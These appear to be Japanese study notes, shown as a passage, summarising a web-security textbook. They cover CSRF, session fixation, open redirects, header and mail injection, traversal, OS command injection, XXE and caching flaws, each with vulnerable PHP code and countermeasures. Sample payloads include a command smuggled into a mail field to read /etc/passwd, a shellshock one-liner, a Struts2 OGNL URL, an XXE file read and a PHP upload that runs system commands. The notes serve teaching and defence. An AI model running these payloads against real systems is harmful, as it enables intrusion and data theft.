 $id = $_SESSION['id'];
 // login処理
 $tmpfile = $_FILES["imgfile"]["tmp_name"];
 $tofile = $_FILES["imgfile"]["name"];
 if (!is_uploaded_file($tmpfile)) {
  die('not uploaded"')
 }else if (!move_uploaded_file($tmpfile, "img/$tofile")) {
  die('can not upload')
 }
 $imgurl = 'img/' . urlencode($tofile);
</body>
ID:<?php ex($id); ?><br>以下の画像をuploadしました<br>
<a href="<?php ex($imgurl); ?>">"></a>
```

罠サイト

```
<body>
<script>
data = '...----BNDRY\nContent-Disposition...{次のDNDRYの中身}';

var req = new XMLHttpRequest();
req.open('POST', 'http://sample.jp/upload.php');
req.setRequestHeader('Content-Type', 'multipart/form-data; boundary=--BNDRY');
req.withCredentials = true;
req.send(data);
</script>
</body>
```

* クッキー送信のためwithCredentials=true
* upload.phpの利用者が罠サイトを閲覧すると次のHTTPリクエストを送信

```
POST http://sample.jp/upload.php HTTP/1.1
Referer: http://trap.com/trap.html
Origin: http://trap.com
Content-Type: multipart/form-data; boundary=--BNDRY
Content-Length: ...
Cookie: PHPSESSIID=...
Host: sample.jp

----BNDRY
Content-Disposition: form-data; name="imgfile"; filename="a.php"
Content-Type: text/plain

<?php phpinfo();

----BNDRY--
```

* withCredentials=trueなのでクッキー送信
* upload.phpがアップロード処理を実行
* CORSのためブラウザの表示はエラーにはなるがCSRF攻撃には支障が無い
* sample.jp/a.phpにアクセスするとphpinfo()が実行される

### 内部ネットワークに対するCSRF攻撃

ルータやファイアウォール(FW)の設定画面のCSRF

* 管理端末から罠を閲覧するとルータやFWの設定を不正に変更される可能性
* 内部システムであっても脆弱性を放置するのは危険

## 脆弱性が生まれる原因

* form要素のaction属性に任意のドメインが指定可能
    * 罠サイトから攻撃対象サイトにリクエストを更新可能
* クッキーに保存されたセッションIDは対象サイトに自動的に送信される
    * 罠経由のリクエストに対してもセッションIDが送信される(認証された状態で攻撃リクエストが送信される)

### 利用者の意図したHTTPリクエスト
```
POST /change.php HTTP/1.1
Referer: http://target.com/
Content-Type: ...

pwd=pass1
```

### CSRF攻撃によるHTTPリクエスト
```
POST /change.php HTTP/1.1
Referer: http://trap.com/...
Content-Type: ...

pwd=pass1
```

* Refererフィールドのみが異なる
* 通常のWebアプリケーションはRefererフィールドをチェックしない
    * 正規利用者の意図したリクエストであることを確認していない
    * CSRF脆弱性が混入

* クッキーによるセッション管理以外でも自動的に送信されるパラメータを使っているとCSRF脆弱性の可能性
* HTTP認証, SSLクライアント認証など

## CSRF対策
「重要な処理」に対するリクエストが正規利用者の意図したものであることを確認する必要がある
* CSRF対策の必要なページを列挙する
* 正規利用者の意図したリクエストを区別できるように実装する

### CSRF対策の必要なページを列挙する
* ECサイトで商品リスト、検索などはCSRF対策不要
* 物品購入、パスワード変更、個人情報編集などの確定画面はCSRF対策必要
* 「商品の追加」はその後購入時に「確認」があれば対策しなくてもよいかもしれない
    * 外部から商品追加させたい場合は確認しない方が便利

### 正規利用者の意図したリクエストであることの確認

* 正規サイトのボタンを押したリクエストは意図したリクエスト
* 罠サイトを閲覧して自動的に送信されたリクエストは意図しないリクエスト

両者の判定方法
* 秘密情報(トークン)の埋め込み
* パスワード再入力
* Refererのチェック

### 秘密情報(トークン)の埋め込み

CSRF対策が必要なページに対して第三者が知らない秘密情報(=トークン)を要求することで不正なリクエストを識別する
* リクエストはPOSTにする
    * GETだとクエリパラメータにトークンが入ってしまう可能性がある
    * Refererで機密情報が外部に漏れる可能性がある

* セッションIDをトークンとして利用すべきではない
    * httpOnly属性でセッションIDをXSSから守っていてもトークンとしてHTMLに存在すると値がとられてしまう
    * HTMLソースが漏洩したときにセッションハイジャックされるリスクを冒すべきではない
    * 『徳丸本』旧版では「セッションIDをトークンとして利用可能」としてしたが第2版では「暗号論的擬似乱数生成器を利用すること」と変更になっている


```
// 確認画面
<form action="change.php" method="POST">
  新パスワード<input name="pwd" type="password"><br>
  <input type="hidden" name="token"
   value="<?php echo sha2(session_id()); ?>">
  <input type="submit" value="パスワード変更">
</form>
```

```
// トークン確認
session_start();
if (sha2(session_id()) !== $_POST['token']) {
  die('正規の画面から利用してください');
}
```

### トークンとワンタイムトークン
ワンタイムトークンは一度しか使わない使い捨てのトークン

・ワンタイムトークンはリプレイ攻撃に対して有効
・CSRF攻撃に対してワンタイムは意味がない
・ワンタイムトークンを使うと正当な操作までエラーになることがある

この本ではワンタイムでないトークンを推奨している

### パスワード再入力

CSRF対策が必要なページに対してパスワード再入力を求めることで不正なリクエストを識別する

* 商品の購入で利用者の意志を再確認する
* 共有PCなどで本当に正規の利用者であるかを確認する

上記場面ではパスワード再入力は有効

### Refererのチェック
CSRF対策が必要なページに対してRefererを確認することで不正なリクエストを識別する

* Refererが送信されないように設定されているとそのページを実行できない
* 脆弱なRefererチェックに注意する

```
'^http://sample\.com'
```
`sample.com`で始まっているかだけをチェックしていると`sample.com.trap.com`がすり抜けてしまう

### CSRF攻撃への保険的対策
「重要な処理」を実行後、対象利用者に処理内容をメールで通知する。

* 攻撃があったことに気がつきやすくなる。
* メールは平文で送信されるので重要な情報は記載しないこと。

##  クリックジャッキング(第2版)
* Webアプリケーションの画面で攻撃対象ページと罠サイトを重ね合わせて利用者が気がつかないうちに攻撃対象サイトのクリックを誘導する
* 「重要な処理」をさせてもその結果を攻撃者が知ることはできない

### ウェブインテント機能のサンプル

* http://sample.jp/intent=本文... によりテキストの入力を予め準備可能
* そのあと「投稿」で入力文字列が投稿される
* 本文は自由に記述できる

罠サイト
* iframeを用いてCSSのz-indexにより奥に罠画像、透明にした攻撃対象フォームを手前に置く
* 罠サイトしかみえないがボタンを押すと「投稿」されてしまう

### 対策
* HTMLの使用なのでアプリ単体で修整は困難
* Microsoftが提案したX-Frame-Optionsが普及

### X-Frame-Options:(DENY|SAMEORIGIN)
* レスポンスヘッダで定義
    * DENY ; frameなどの内側で表示できない
    * SAMEORIGIN ; オリジンと同じ場合のみ表示可能
* iframeを使わないサイトはDENYを指定
* frameを使うがホストが単一の場合はSAMEORIGINを指定して防御

# セッション管理の不備

## セッションハイジャックの原因と影響
利用者のセッションIDが第三者に知られることで、利用者に成りすまされること

それにより次のような影響が考えられる
* 利用者の秘密情報の閲覧
* 利用者の権限で物品購入
* 利用者のIDでブログの投稿

## セッションIDの推測
セッションIDの生成方法が不適切だと第三者にIDを推測される可能性がある
* 連番になっている
* ユーザIDと日付で作っている

### 攻撃手法
* 対象アプリからセッションIDを集める
* セッションIDの規則性を見つけて仮説を立てる
* 対象アプリで試す

### 対策
Webアプリフレームワークのセッション管理機構を使う

## セッションIDの盗み出し
* クッキー生成のときの属性の不備
* ネットワークを盗聴される
* XSS脆弱性
* ソフトの脆弱性
* セッションIDがURLに書かれているとRefererで漏洩
    * 外部サイトへのリンクを利用者が作成できる
    * リンクをクリックすると外部サイトのRefererに出力される

### 対策
URLにセッションIDを埋め込まずCookieにIDを保存する

## セッションIDの強制(セッションIDの固定化攻撃)
セッションIDを予測したり盗んだりするのではなく、攻撃者がセッションIDを利用者に設定する

* セッションIDを入手する
* 利用者にそのセッションIDを強制する
* 利用者が標的アプリにログインする
* 攻撃者はそのセッションIDでアプリを操作する

### 攻撃手法
セッションIDをクッキーとURLに保存している場合の例

* ユーザIDの入力画面
* 認証画面
* 個人情報表示画面

```
<?php
  session_start();
?>
<body>
<form action="login.php" method="POST">
  ユーザID:<input name="id" type="text"><br>
  <input type="submit" value="ログイン">
</form>
</body>
```

```
<?php
  session_start();
  $id = $_POST['id'];
  // 簡単にするため確認せずにログイン成功とする
  $_SESSION['id'] = $id;
?>
<body>
<?php echo htmlescape($id); ?>さん
<a href="info.php"></a>
</body>
```

```
<?php
  session_start();
?>
<body>
現在のユーザID : <?php echo htmlescape($_SESSION['id]); ?>
</body>
```

罠URL`http://target.com/login.php?PHPSESSID=ABC`
をクリックしてログイン画面でIDを入力してログインボタンを押すと
セッションIDがABCになった状態で認証される

ユーザが認証された状態で攻撃者が
`http://target.com/info.php?PHPSESSID=ABC`
をクリックすると現在のユーザIDが表示される

### セッションアダプション
* PHP(5.4以前)は未知のセッションIDを受け入れる仕様
* セッションアダプションがない場合は有効なセッションIDを取得してそのIDを指定する

### セッションIDをクッキーにのみ保存する場合
* XSS脆弱性, HTTPヘッダインジェクション脆弱性があるとクッキーのセッションIDを外部から設定できる可能性

## 脆弱性の原因
セッションIDを外部から強制できるとセッションID固定化攻撃になりえる
* セッションIDをURLに埋め込まない
* XSS脆弱性対策
* HTTPヘッダインジェクション対策

## セッションIDが強制されてもセッションIDの固定化攻撃を受けない対策

### 認証後にセッションIDを変更する
PHPではsession_regenerate_id(true)を使う

```
<?php
  session_start();
  $id = $_POST['id']; // 簡単にするため確認せずにログイン成功とする
  session_regenerate_id(true); // セッションIDの変更
  $_SESSION['id'] = $id;
?>
<body>
<?php echo htmlescape($id); ?>さん
<a href="info.php"></a>
</body>
```

### トークンによる対策
セッションIDの変更ができない場合

* ログイン時にランダム文字列(トークン)を生成し, クッキーとセッション変数の両方を記憶させる
* 各ページの認証確認時にクッキー上のトークンとセッション変数のトークンが一致していなければエラー

トークンが外部に出力されるのはログイン時のクッキー生成時のみなので外部の攻撃者は知れない

```
<?php
  session_start();
  $token = createToken();
  setcookie('token', $token);
  $_SESSION['token'] = $token;
  ...
```

```
<?php
  session_start();
  // ユーザIDの確認(省略)
  $token = $_COOKIE['token'];
  if (!$token || $token != $_SESSION['token']) die('認証エラー');
```

### ログイン前のセッションIDの固定化攻撃
* 対策は困難
* ログイン前はセッション管理機構を使わない
* hiddenパラメータで値を引き回す

# リダイレクト処理にまつわる脆弱性

リダイレクタ : パラメータで指定したURLにリダイレクトする機能

例 : ログインページのパラメータにURLを指定しておきログイン後にそのURLにリダイレクト

## オープンリダイレクタ脆弱性
オープンリダイレクタ : 任意のドメインにリダイレクトできるもの

`http://sample.com/?url=http://trap.com/`で`http://trap.com/`に移動する

### フィッシング詐欺に悪用される可能性
フィッシング : 著名なWebサイトに偽装したサイトに利用者を誘導して個人情報を入力させる手口

利用者が信頼しているドメインにオープンリダイレクタ脆弱性があると, 知らない間に罠サイトに誘導される可能性

### 攻撃手法

アプリ

```
// https://target.com/start.php
<?php
  $url = @$_GET['url'];
  if (!isset($url)) $url = 'https://target.com/main.php';
?>
<html><body>
  <form action="login.php" method="POST">
    ユーザ名<input type="text" name="id">
    パスワード<input tpye="password" name="pwd">
    <input type="hidden" name="url"
      value="<?php echo escapeHtml($url) ?>">
    <input type="submit" value="ログイン">
  </form>
</body></html>

```

```
// https://target.com/login.php
<?php
  $id = $_POST['id'];
  $pwd = $_POST['pwd'];
  $url = $_POST['url'];
  if ($idと$pwdが正しい) {
    header('Location: '. $url); // リダイレクト
    exit();
  }
?>
<body>
IDまたはパスワードが違います
</body>
```

```
// https://target.com/main.php
<html><body>
ログインしました
</body></html>
```

攻撃ページ
```
// https://trap.com/
<html><body>
  IDまたはパスワードが違います
  <form action="fake-login.php" method="POST">
    ユーザ名<input type="text" name="id">
    パスワード<input tpye="password" name="pwd">
    <input type="hidden" name="url"
      value="<?php echo escapeHtml($url) ?>">
    <input type="submit" value="ログイン">
  </form>
</body></html>
```
ユーザに`https://target.com/start.php?url=https://trap.com/`を指定させる

* ドメインが本物で証明書のエラーも出ないので安心してIDとパスワードを入力
* login.phpで認証された後リダイレクタが攻撃ページに遷移
* パスワードを間違えたかなと再入力

### 脆弱性の原因
* リダイレクト先のURLを外部から指定できる, かつ
* リダイレクト先のドメインのチェックがない

### オープンリダイレクタが問題ない場合
* もともと外部のドメインに遷移する仕様
* 利用者にとって外部ドメインに遷移することが自明なとき(バナー広告)

### 対策

* リダイレクト先のURLを固定する
* リダイレクト先のURLを直接指定ではなく番号などの間接指定にする
* リダイレクト先のドメインをチェックする

チェックは失敗しないように気を付ける

駄目な例1
```
if (mb_ereg('example\.jp', $url)) {
  // チェックOK
}
```
これは`trap.example.com/example.jp.php`だとすり抜ける

駄目な例2
```
if (mb_ereg('^/', $url)) {
  // チェックOK
}
```
先頭が/で始まっているのでパス指定のみと思ったけれども`//trap.example.com/`で外部に飛べる(ネットワークパス参照形式)


駄目な例3
```
if (mb_ereg('^http://example\.jp/', $url)) {
  // チェックOK
}
```
* URLが`http://example.jp/`で始まっていることを確認
* 次で説明するHTTPヘッダ・インジェクション攻撃に対して脆弱な場合がある

### valid_check_url
正しい書き方
```
if (mb_ereg('/Ahttps?://example\.jp/[-_.!~*\'();\/?:@&=+\$,%#a-zA-Z0-9]*\z', $url)) {
  // チェックOK
}
```
`http://example.jp/`で始まり, かつURIで使用できる文字のみからなることを確認している

### クッションページ
* 利用者がURLを書き込むとリンクが生成されるサイトでフィッシングサイトに誘導される可能性
* クッションページを置いて外部ドメインに遷移することを利用者に告知する

## HTTPヘッダ・インジェクション脆弱性
リダイレクトやクッキー発行など外部からのパラメータを元にHTTPレスポンスヘッダを生成する際に発生する脆弱性

パラメータ中に改行を挿入してヘッダ出力をコントロール

* 任意のレスポンスヘッダの追加
* レスポンスボディの偽造
* CrLfインジェクション攻撃, HTTPレスポンス分割攻撃とも


### 影響
* 任意のクッキー生成
* 任意のURLへのリダイレクト
* 表示内容の改変
* 任意のJavaScript実行によるXSSと同等の被害

### サンプル
urlというクエリー文字列を受け取りurlが指すURLにリダイレクトする例
```
my $cgi = new CGI;
my $url = $cgi->param('url'); // クエリー文字列urlを取得
if ($url =~/^http:\/\/example\.jp\//) { # 不十分な対策
  print "Location: $url\n\n";
  exit 0;
}
# エラーメッセージ
print <<END_OF_HTML;
Content-Type: text/html; charset=UTF-8

<body>
Bad URL
</body>
END_OF_HTML
```

* `cgi?url=http://sample.com/`ならsample.comにリダイレクト

### 攻撃
```
cgi?url=http://sample.com/%0D%0ALocation:+http://trap.com/
```
を渡すと罠サイトに移動する

### 解説
不十分な対策なので`sample`で始まっているとして`Location`ヘッダに
```
Location: http://sample.com/
Location: http://trap.com/
```
が出力される。複数のLocationがあると前者が書きされて後者だけが出力される。

### 任意のクッキー生成
同じcgiに
```
cgi?url=http://sample.com/%0D%0ASet-Cookie:+SESSID=ABCD123
```
でアクセスすると
```
Set-Cookie: SESSID=ABCD123
Location: http://sample.com/
```
任意のクッキー値を生成できるのでセッションIDの固定化攻撃の可能性

### 偽画面の表示
pageidクエリー文字列の値をPAGEIDという名前でクッキーを生成するCGIスクリプト
```
my $cgi = new CGI;
my $pageid = $cgi->param('pageid');
print encode('UTF-8', <<END_OF_HTML);
Content-Type: text/html; charset=UTF-8
Set-Cookie: PAGEID=$pageid

<body>
クッキーを設定
</body>
END_OF_HTML
```

```
http://sample.com/cgi?pageid=P%0D%0A%0D%0A....
```
で開くとヘッダに
```
PAGEID=P
```
があり、レスポンスボディが
```
攻撃されました

<body>
クッキーを設定
</body>
```
となる。CSSを工夫すれば元の画面を隠せる。

### HTTPヘッダと改行
* URLは改行文字を含めない
* クッキーの値
    * 改行を入れたい場合は`%0D%0A`とパーセントエンコードする

### 対策
* HTTPヘッダ出力部分を自前で作成せずに専用ライブラリやAPIを利用する
    * 過去には0x0Aのみの対策で0x0Dは通ったこともあった
    * よく仕様と実装を確認すること
* 改行コードが含まれていればエラーとして処理を中止する

## クッキー出力にまつわる脆弱性

### クッキーの不適切な利用
Webアプリの一般的な使い方
* セッション管理機構ではセッションIDのみをクッキーに保存
* データ自体はWebサーバ側で保存する

クッキーに保存すべきでないデータをクッキーに保存すると脆弱性につながる可能性

* セッション変数は外部から書き換えられない
* クッキーの値は書き換えられる
    * 書き換えられて困る情報をクッキーに保存すると脆弱性の原因

クッキーとセッション変数の比較


項目                          |クッキー                         |セッション変数
------------------------------|---------------------------------|---------------
使いやすさ                    |APIで設定・取得                  | 変数とほぼ同じ
配列やオブジェクトの格納      |アプリ側で文字列に変換           |代入可能な場合が多い
サイズの制限                  |あり                             |ほぼ無制限
利用者による格納情報の直接参照|容易                             |不可能
クッキーが漏洩した時          |データも漏洩                     |制御可能(パスワードありなど)
利用者によるデータ改変        |容易                             |不可能
第三者によるデータ改変        |XSSやHTTPヘッダ・インジェクション|不可能
情報の寿命の制限              |容易                             |セッション限り
異なるサーバとの情報共有      |ドメインが同じなら可能           |不可能

* セッション変数を異なるサーバで共有するにはyrmcdsなどのなんらかの情報共有機構が必要


* 寿命の制御と異なるサーバとの情報共有を除いてはセッション変数の方が便利
    * セッション変数を利用すべき
* ログイン状態の保持はクッキーを使う
    * トークン(乱数)のみを保存
* HTTPSのときのみ送信可能なsecure属性をつける
* XSS対策のためhttpOnly属性をつける

# メール送信の問題
## メールヘッダ・インジェクション脆弱性
メールメッセージの宛て先や件名などのヘッダフィールドに改行を挿入することで新たなフィールドを追加したり本文を改竄したりする手法
## hiddenパラメータによる宛て先保持
* メール送信先をhiddenパラメータで指定するメール送信用フォームは迷惑メールの送信に悪用される可能性がある
* ソースコードにハードコーディングするか別のところに保存すべき

## メールヘッダ・インジェクション攻撃の例
メール送信フォーム
```
<body>
問い合わせフォーム<br>
<form action="post.php" method="POST">
  メール:<input type="text" name="from"><br>
  本文:<textarea name="body"></textarea>
  <input type="submit" value="送信">
</form>
</body>
```
メール送信スクリプト
```
<?php
 $from = $_POST['from'];
 $body = $_POST['body'];
 mb_language('Japanese');
 mb_send_mail("q@sample.com", "問い合わせ", "送信内容\n\n" . $body, "From: " . $from);
?>
送信しました
</body>
```
第4引数は改行区切りにより複数ヘッダ指定可能

### 宛て先追加攻撃(form改変)
```
<form action="post.php" method="POST">
  メール:<textarea name="from" rows="r" cols="30"></textarea>
  本文:<textarea name="body"></textarea>
  <input type="submit" value="送信">
</form>
```
メール宛て先を複数行入力可能にして
```
alice@sample.com
Bcc: bob@sample.com
```
と入力するとbobにbccで届く

### 本文改竄
```
alice@sample.com
Bcc: bob@sample.com

discount PC!!!
```
とすると本文の最初に`discount PC!!!`と表示される

ウイルスファイルを添付することも可能

## 対策
* メール送信専用ライブラリを利用する
* 外部からのパラメータをメールヘッダに含ませないようにする
* 外部からのパラメータに改行をふくまないように送信時にチェックする

## ファイルアクセスにまつわる問題
### ディレクトリ・トラバーサル脆弱性
外部からパラメータの形でサーバのファイル名を指定できるWebアプリケーションではファイル名のチェックが不十分だと意図しない閲覧・改竄・削除ができる場合がある。

* Webサーバ内のファイル閲覧
    * 重要情報の漏洩
* Webサーバ内のファイルの改竄・削除
    * コンテンツ改竄
    * マルウェアのサイトに誘導
    * サーバ機能停止

### 攻撃例
`template=ファイル名`で画面テンプレートを指定できるスクリプト
```
<?php
  define('TMPLDIR', '/var/www/tmpl/');
  $tmpl = $_GET['template'];
?>
<body>
  <?php readfile(TMPLDIR . $tmpl . '.html'); ?>
  ...
</body>
```

```
http://sample...php?template=../../../etc/hosts%00
```
でアクセスすると`$tmpl`は
```
/var/www/tmpl/../../../etc/hosts'\0'.html
```
という形になり

`/etc/hosts`の中身が表示される(ファイル名の中に'\0'が含まれるとエラーになることも多い)

### 対策
* 外部からファイル名を指定する仕様を避ける
    * ファイル名を固定にする
    * ファイル名を番号などで間接指定する
* ファイル名にディレクトリ名が含まれないようにする
    * `/`, `\`, `:`などをチェックする
* ファイル名を英数字に限定する
    * '\0'をはじく

## 意図しないファイルの公開
* ファイルが公開ディレクトリに置かれている
* ファイルに対するURLを知る手段がある
* ファイルに対するアクセス制限が掛かっていない

## OSコマンド呼び出しの際に発生する脆弱性
### OSコマンド・インジェクション
* 外部から攻撃用ツールをダウンロードする
* ダウンロードしたツールに実行権限を与える
* 内部からOSの脆弱性を攻撃して管理者権限を得る

### 例
メール送信受け付けスクリプト
```
<?php
  $mail = $_POST['mail'];
  system("/usr/sbin/sendmail -i <template.txt $mail");
  ...
```
問い合わせフォームに
```
a@example.com;cat /etc/passwd
```
とすると
```
/usr/sbin/sendmail -i <template.txt a@example.com;cat /etc/passwd
```
が実行されて`/etc/passwd`の中身が表示される

### 脆弱性の原因
* シェル経由でコマンド実行はパイプ、リダイレクトなどの便利な機能が使える
* それが外部からの操作要因となる

### 対策
* OSコマンド呼び出しを使わない方法を選ぶ
* シェル呼び出し機能のある関数の利用を避ける
* パラメータを安全な関数でエスケープする

### shellshock(2014)
* bashの環境変数のパーサにバグがあった
* 環境変数に値を書き込めると脆弱

```
env x='() { :;}; echo attack' bash -c "echo test"
```
で`echo attack`が実行されてしまった

* その対策の修正漏れで6種類ぐらいの派生攻撃
[hatena/Kango](http://d.hatena.ne.jp/Kango/20140925/1411612246#20140925f1)

### PHPのregister_globals(PHP 5.4.0以降削除)
リクエストパラメータがグローバル変数にセットされる機能
```
http://sample.com/?a=1&b=abc
```
でアクセスすると`$a="1"`, `$b="abc"`がセットされる

```
<?php
 if (authenticated_user()) {
    $authorized = true;
 }
 if ($authorized) {
    // 認証後のロジック
 }
```
に`...?authorized=true`でアクセスすると認証されてしまう

### OGNL式インジェクション(Javaのライブラリ)
Javaオブジェクトのプロパティを操作するJavaライクな言語

* [cwiki.apache.org](https://cwiki.apache.org/confluence/display/WW/S2-013)
```
http://localhost:8080/example/HelloWorld.action?fakeParam=%25%7B(%23_memberAccess%5B'allowStaticMethodAccess'%5D%3Dtrue)(%23context%5B'xwork.MethodAccessor.denyMethodExecution'%5D%3Dfalse)(%23writer%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23writer.println('hacked')%2C%23writer.close())%7D
```

Struts2が使っている
* 多くの場所で使われているため対応漏れが多い
* [例えば、Strutsを避ける](https://www.scutum.jp/information/waf_tech_blog/2014/04/waf-blog-036.html)
* [Struts2が危険である理由](https://www.scutum.jp/information/waf_tech_blog/2017/03/waf-blog-046.html)

JVMのSecurityManager
* 悪意あるユーザからJVMの操作を保護する(遅くなることがある)
* [サイボウズ Live アクセス障害の裏で起こっていたこと](http://blog.cybozu.io/entry/2017/12/28/080000)

## ファイルアップロードにまつわる問題

利用者がファイルをアップロードやダウンロードする機能に発生しがちな脆弱性

### アップロード機能に対するDoS攻撃
* 巨大なファイルを連続して送信することでWebサイトに過大な負荷を掛けるDoS攻撃
* ファイルアップロードの容量制限をする
* 画像ファイルを復元したときのサイズチェック

### アップロードファイルによるサーバ側スクリプト実行
* 外部からアップロードされたファイルがWebサーバ上で実行できてしまう可能性
    * Webサーバ内のファイルの閲覧・改竄・削除
    * 外部へのメール送信
    * 別のサーバへの攻撃(踏み台)

例
```
// ファイルアップロード
<body>
<form action="view.php" method="POST" enctype="multipart/form-data">
  ファイル:<input type="file" name="imgfile" size="20"><br>
  <input type="submit" vluae="アップロード">
</form>
</body>
```

```
// ファイル表示
<?php
  $tmpfile = $_FILES["imgfile"]["tmp_name"];
  $tofile = $_FILES["imgfile"]["name"];
  if (!is_uploaded_file($tmpfile)) {
    die('ファイルがアップロードされていません');
  } else if (!move_uploaded_file($tmpfile, 'img/' . $tofile)) {
    die('ファイルをアップロードできません');
  }
  $imgurl = 'img/' . urlencode($tofile); // %エンコード(ファイル名には<>"が可能)
?>
<body>
<a href="<?php echo htmlspecialchars($imgurl); ?>">
<?php echo htmlspecialchars($tofile, ENT_NOQUOTES, 'UTF-8'); ?> // XSS対策
</a>をアップロードしました<br>
">
</body>
```

```
<pre>
<?php system('/bin/cat /etc/passwd'); ?>
</pre>
```
をアップロードするとこのファイルは画像ではないので絵は表示されない

しかしクリックするとスクリプトがサーバ上で実行されて`/etc/passwd`の中身が表示される

対策
* アップロードファイルは公開ディレクトリに置かない
    * スクリプト経由で閲覧させる
* ファイルの拡張子をスクリプト実行可能性のないものに制限する
    * 漏れる可能性があるので頼りすぎない

### 仕掛けを含むファイルを利用者にダウンロードさせることによる攻撃
* ブラウザがファイルタイプを誤認することがある(あった)
    * PNG画像を指定していても画像データの中にHTMLタグがあるとHTMLファイルと認識しJavaScriptが実行される
    * 昔のIEはいろいろ大変だった
* ファイルのContent-Typeを正しく設定する
    * X-Content-Type-Options:nosniffを設定する(必須)
    * Content-TypeのみからContent-Typeを解釈する
* 画像の拡張子と中身が対応していることを確認する
    * ファイルのヘッダ(マジックバイト)を確認する
* ダウンロードファイルには`Content-Disposition: attachment`を指定する
* 画像を別ドメインで配信する
    * ドメインを分けると画像によるXSS攻撃が可能だった場合もサービス自体への影響を減らせる

### PDFのFormCalcによるコンテンツハイジャック(第2版)
* FormCalc ; PDFで利用可能なスクリプト言語
* URL関数はHTTPリクエストを呼び出して結果を受け取れる
* 攻撃PDFを攻撃対象サイトにアップロードして罠サイトへ誘導する
* Acrobat Readerプラグインがブラウザが保持している攻撃対象サイトのクッキーを罠サイトに送ってしまう

対策
* PDFファイルはブラウザ内で開かないでダウンロードして使う
* `X-Download-Options: noopen`でIEの「ファイルを開く」を表示させない
* POSTリクエストでダウンロードさせる
* [PDF特殊機能（FormCalc編）](https://shhnjk.blogspot.com/2016/10/pdfformcalc.html)

### ファイルの権限を越えたダウンロード
アップロードしたファイルが権限の無い利用者にもダウンロードできる問題

## インクルードにまつわる問題
* PHPのRFI(リモート・ファイルインクルード) ; 外部サーバのURLをファイル名と指定する機能
* アプリが意図しないファイルを読み込むことで脆弱になる

## evalにまつわる問題
* eval ; 与えられた文字列をプログラムソースとして解釈し実行する機能
* 外部からの入力文字列をそのままevalしてしまう(evalインジェクション攻撃)

### 原因
* evalを用いるのがそもそも危険
* evalに与えるパラメータのチェックをしていない

### 対策
* evalを使わない
* evalの引数に外部からのパラメータを指定しない
* evalに与えるパラメータを制限する

### 安全でないデシリアライゼーション(第2版)
* アプリ内部の構造を持ったデータを保存・復元する機能
* 信頼できないデータのデシリアライゼーションは危険

PHPの悪用されやすいメソッド
* デストラクタ
* unserialize_callback_func ; 未定義のクラスをデシリアライズ
* __wakeup() ; デシリアライズしたクラスに定義されているとき
* __toString() ; デシリアライズしたクラスに定義されていて, それを文字列に変換するとき

* [Apache Commons Collectionsの脆弱性解説](https://codezine.jp/article/detail/9150) ; codezine 藤本万里子
* [Javaのデシリアライズに関する問題の対策](https://codezine.jp/article/detail/9176)

### XML外部実体参照(XXE)(第2版)
* 外部実体参照 ; 外部ファイルの内容を取り込むXMLの機能
* XXE(XML external entity) ; 外部実体参照を用いた攻撃

外部実体参照

```
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE foo [
<!ENTITY greeting "こんにちは">
<!ENTITY external-file SYSTEM "external.txt">
]>
<foo>
 <hello>&greeting;</hello>
 <ext>&external-file;</ext>
</foo>
```
external.txtの中身が"hello"なら`<ext>hello</ext>`になる

外部実体参照によるファイルアクセス
* XMLを受け取りXML形式を解析するスクリプト

```
<?php
 $doc = new DOMDocument();
 $doc->load($_FILE['user']['tmp_name']);
 $name = $doc->getElementsByTagName('name')->item(0)->textContent;
?><body>
```

アップロードするXMLを
```
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE foo [
<!ENTITY greeting "こんにちは">
<!ENTITY hosts SYSTEM "/etc/hosts">
]>
<user>
 <name>&hosts;</name>
</user>
```
とすると名前が/etc/hostsの中身になってしまう

PHPでの対策
* XMLの代わりにJSONを使う
* libxml2 2.9以降を使う(デフォルトで外部実体参照禁止)
* libxml_disable_entity_loader(true)で外部実体参照を禁止する

Javaでの対策
* 多くのXMLパーサで外部実体参照はデフォルトで有効
    * DTDを禁止する
* XMLの代わりにJSONを使う

## 共有資源に関する問題
### 競合状態の脆弱性
* 共有資源 ; 複数のプロセスやスレッドから同時に利用される変数、共有メモリ、ファイル、データベースなど
* 共有資源に対する排他制御が不十分だと脆弱性が発生する可能性

### 代表例
* 他人の個人情報が画面に表示される
* データベースの不整合
* ファイルの破損

### 対策
* 可能な限り共有資源を避ける
* 排他制御を使う

### キャッシュからの情報漏洩(第2版)
* Webアプリケーションの処理の高速化のためにキャッシュを使うことが多い
* 過剰にキャッシュが働くと個人情報漏洩につながる可能性がある

例 : ユーザとApache:88の間にキャッシュサーバnginx:80が入ってるとする
* キャッシュから応答可能と判断されるとningxがレスポンス

#### アプリ側のキャッシュ制御不備
セッションstartの前にキャッシュありの設定をする
```
<body><?php
  session_cache_limiter('public'); // 追加
  session_cache_expire(1); // 追加
  session_start();
  if (empty($_SESSION['user'])) {
    die('ログインしていません');
  }
  echo "ユーザ{$_SESSION['user']}でログイン";
?></body>
```
* tanakaでログインする
    * 「ユーザtanakaでログイン」と表示
* yamadaでログインする
    * 「ユーザtanakaでログイン」と表示

#### キャッシュサーバの設定不備
上記「// 追加」の部分を削除する代わりに
nginxの設定に
```
location /.../ {
  ...
  proxy_ignore_headers Cache-Control Expires Set-Cookie;
  ...
}
```
を追加する

キャッシュ無しなのに「ユーザtanakaでログイン」が表示されてしまう

### 脆弱性が生まれる原因

設定の不備
```
  session_cache_limiter('public');
  session_cache_expire(1);
```
を追加するとHTTPレスポンスヘッダは
```
Cache-Control: public, max-age=60
Expires: ...
```
となる

Cache-Controlヘッダのキャッシュ方法の種類
* no-store ; キャッシュしない
* no-cache ; キャッシュの有効性を毎回サーバに確認
* private ; 一人のユーザのためのキャッシュを許可(ブラウザのキャッシュは許可, キャッシュサーバのキャッシュは不許可)
* public ; すべてのキャッシュを保存
* must-revalidate ; キャッシュが陳腐化していないか確認
* max-age ; リソースが陳腐化していないと考えられる最長時間(秒)

上記設定では60秒間常にキャッシュする
* そのため二度目以降は他人のキャッシュを返してしまう


```
  proxy_ignore_headers Cache-Control Expires Set-Cookie;
```
を追加するとキャッシュ制御のときにCache-Control, Expires, Set-Cookieを無視する
* そのためアプリで正しくキャッシュ制御の設定をしていてもキャッシュサーバが無視してしまう

### 対策
* アプリでキャッシュ制御の適切なレスポンスヘッダを設定
    * Cache-Controlにno-storeを設定
    * Cache-Control: private, no-store, no-cache, must-revalidate
    * cf. [Cache control tutorial](https://docs.fastly.com/guides/tutorials/cache-control-tutorial)
        * Cache-Control: privateをつける no-storeでもキャッシュする
